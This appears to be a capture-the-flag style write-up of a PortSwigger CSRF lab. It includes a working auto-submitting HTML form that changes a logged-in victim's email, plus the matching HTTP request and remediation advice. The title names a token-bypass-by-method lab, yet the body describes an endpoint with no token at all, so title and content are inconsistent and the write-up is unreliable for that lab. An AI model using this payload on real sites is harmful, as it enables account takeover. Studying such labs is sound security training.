




# LAB 02 - CSRF where token validation depends on request method

## Lab Information

- **Category:** Cross-Site Request Forgery (CSRF)
- **Type:** CSRF Token
- **Difficulty:** PRACTITIONER
- **Status:** ✅ Solved
- **Date:** 2026-9-3

---


---

# Table of Contents

- Executive Summary
- Lab Information
- Objective
- Vulnerability Overview
- Attack Prerequisites
- Environment & Scope
- Methodology
- Discovery Process
- Technical Analysis
- Payload Analysis
- Exploitation Flow
- Evidence
- Impact
- Root Cause
- Risk Assessment
- Remediation
- Lessons Learned
- References
- Screenshots

---

# Executive Summary

A Cross-Site Request Forgery (CSRF) vulnerability was identified in this lab because the email-change functionality does not implement an effective CSRF defense.

The vulnerable endpoint accepts a state-changing POST request without requiring a CSRF token or another mechanism to verify that the request was intentionally initiated from the legitimate application.

An attacker can host a malicious HTML form on an external server and induce a logged-in victim's browser to submit a forged request to the vulnerable endpoint, resulting in the victim's email address being changed.

---

# Objective

The objective of this lab is to demonstrate that an attacker can cause a state-changing request to be submitted from an external origin while the victim is authenticated to the target application.

---

# Vulnerability Overview

A Cross-Site Request Forgery (CSRF) vulnerability occurs when an attacker tricks the browser of a logged in victim into sending a request to another website, causing that site to execute the request using the victim's privileges.
Authentication establishes who the user is, but it does not necessarily prove that the user intentionally initiated a particular request.

---


# Attack Requirements

1- The victim is logged into the target site.
2- The victim's browser automatically includes the authentication credentials required by the target application.
3- The attacker knows or can guess the target URL and the required transaction parameters.
4- The sensitive action can be triggered via various elements, such as a form, an image, an embedded frame, or a link.
5- The request does not require a secret or unpredictable CSRF token.
6- The application does not implement another effective CSRF defense.

---

# Environment & Scope

| Item | Value |
|------|-------|
| Target | PortSwigger Web Security Academy lab |
| Endpoint | `/my-account/change-email` |
| HTTP Method | POST |
| Parameter | `email` |
| Authentication | Session cookie |
| CSRF Protection | None observed |
| Attack Platform | Exploit Server |
| Client | Web Browser |
| Attack Vector | Cross-site HTML form submission |

---

# Methodology

1. Open the vulnerable lab.
2. Enter a valid email address to update it.
3. Inspect the HTTP request and response using Burp Suite.
4. Check the request to see if it contains protection values.
5. Go to the exploit page.
6. Create a cross-site HTML form targeting the vulnerable endpoint.
7. Include the victim-controlled email value as a hidden form parameter.
8. Automatically submit the form from the exploit server.
9. Deliver the exploit to the victim.
10. Verify that the victim's email address was changed.

---

# Discovery Process

### Step 1 — Testing the Update email

```email
example@gmail.com
```

The email address is updated via the `email` parameter, and the browser uses session data to identify the user without any protection.


### Step 2 — Testing Email Change from Within Burp Suite

```email
hacker@gmail.com
```
The server responded with `302 Found` and redirected the request back to the account page. More importantly, the request contained no visible CSRF token or other unpredictable anti-CSRF value.

The request was accepted and the email address was successfully changed, demonstrating that the endpoint performs the state-changing operation without requiring an additional CSRF defense.

### Step 3 — Go to the exploit page and enter the code.

```html
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="hacker@gmail.com">
</form>
<script>
        document.forms[0].submit();
</script>
```
The form generates a POST request that updates the email address to the value we specified in the code, and then JavaScript is used to submit the form automatically.

---

# Technical Analysis

The vulnerable functionality uses the following endpoint:

```http
POST /my-account/change-email
```
The relevant request parameter is: email=example@gmail.com
The request is authenticated using the victim's session cookie.

No CSRF token or other unpredictable value was present in the request.

Therefore, the application accepts the state-changing request based on the authenticated session without verifying that the request was intentionally initiated by the legitimate application.

```http
POST /my-account/change-email HTTP/2
Host: TARGET
Cookie: session=[REDACTED]
Content-Type: application/x-www-form-urlencoded

email=test@gmail.com
```

---

# Payload Analysis

## Payload Used

```html
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="hacker@gmail.com">
</form>
<script>
        document.forms[0].submit();
</script>
```

## Why This Payload Works

```html
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">

```
It creates a form that sends a POST request to the entered page.


```html
 <input type="hidden" name="email" value="hacker@gmail.com">
```
You enter the email address value you want to change, without it being visible to the victim.

```html
<script>
        document.forms[0].submit();
</script>
```
It causes the browser to submit the form automatically.
The exploit does not contain the victim's session cookie. Instead, the attack relies on the victim's authenticated browser to provide the authentication context when submitting the request to the target application.

---

# Exploitation Flow

```text
Attacker
   │
   ▼
Exploit Server
   │
   │ Hosts malicious HTML form
   ▼
Victim visits exploit page
   │
   ▼
Browser automatically submits POST request
   │
   ├── POST /my-account/change-email
   └── email=attacker@example.com
   │
   ▼
Target Application
   │
   ▼
Victim's authenticated session
   │
   ▼
Email address changed
  
```

---

# Impact

Depending on the privileges of the victim and the application's functionality, successful CSRF exploitation may allow an attacker to:

- Change the victim's email address.
- Modify account profile information.
- Perform unauthorized account actions.
- Change security-related settings if they are vulnerable to CSRF.
- Perform administrative actions when the victim has administrative privileges.
- Trigger financial or transactional operations if those endpoints lack CSRF protection.
  
### Lab-Specific Impact

In this lab, the attacker can change the authenticated victim's email address without the victim intentionally submitting the request.

---

# Root Cause

The root cause is the absence of an effective CSRF defense on the state-changing email update endpoint.

The application accepts the request:

```http
POST /my-account/change-email
email=attacker@example.com
```
without requiring a CSRF token or another effective mechanism to verify that the request originated from an authorized and intentional interaction with the application.
As a result, an attacker-controlled page can construct and submit a forged request to the vulnerable endpoint.

---

# Risk Assessment

| Item | Value |
|------|-------|
| Severity |  Medium |
| CVSS Score | Not calculated |
| CWE | CWE-352: Cross-Site Request Forgery (CSRF) |
| OWASP Category | Cross-Site Request Forgery (CSRF) |
| Exploitability | Demonstrated in lab |
| Business Impact | Account theft , Financial loss , Data leakage and modification , Privacy violation , Full site control|

---

# Remediation

- **Using Anti-CSRF Tokens**
  - Generate a random, unique, and cryptographically secure token for each user session or request.
  - Include this token in operations that alter data state (such as POST, PUT, and DELETE requests).
  - The server verifies that the token received from the browser matches the stored token before executing the request.

- - **SameSite Cookies**
  - Configure session cookies with an appropriate `SameSite` policy such as `Lax` or `Strict` where compatible with the application's requirements.
  - SameSite should be considered an additional layer of defense rather than the sole CSRF protection mechanism.
    
- **Request for re-authentication for sensitive actions**
  - Requiring the user to enter their current password, a two-factor authentication (2FA/OTP) code, or solve a CAPTCHA before completing critical      actions (such as changing their email address, transferring funds, or deleting their account).

- **Strict adherence to REST standards (Strict HTTP Methods)**
  - Ensure that GET requests are used solely for viewing and reading data, and never alter the system state (changing a password via a GET link is     a security disaster).

- **Validating Custom Request Headers**
  - When using technologies like AJAX or Fetch (in SPA applications), add a custom header (such as `X-Requested-With`).
  - Browsers prevent external sites from automatically sending custom headers due to the CORS policy.
 
  - **Checking Origin and Referer Headers**
  - Verifying the Origin or Referer header on the server side as an additional validation step to ensure that the request actually originated from     your site rather than a malicious one.
    
---

# Lessons Learned

- Cookies are sent automatically and blindly.
- Predictability and ease of exploitation.
- Risks associated with state-changing HTTP requests.
- Simulating the attack via independent interfaces.
- Authentication is not equivalent to intent verification.
- CSRF exploits the victim's authenticated session rather than stealing the session itself.
- A state-changing request should require an appropriate CSRF defense.
- The absence of a CSRF token can make predictable state-changing requests forgeable.
  
---

# References

- OWASP
- PortSwigger Web Security Academy
- MITRE CWE
- CVSS Specification

---

# Screenshots

## Test



...

## Burp Request



...

## Payload



...


## Successful 



---

# Conclusion

This practical experiment demonstrated the successful exploitation of a Cross-Site Request Forgery (CSRF) vulnerability in a laboratory environment.

The vulnerable endpoint accepted a state-changing request without requiring a CSRF token or another effective CSRF defense. By hosting a malicious HTML form on an external exploit server, the attacker was able to cause the victim's browser to submit a forged request to the target application.

The key lesson is that authentication alone does not verify user intent. State-changing requests should therefore be protected using appropriate CSRF defenses such as anti-CSRF tokens, appropriate SameSite cookie policies, and Origin/Referer validation where applicable.
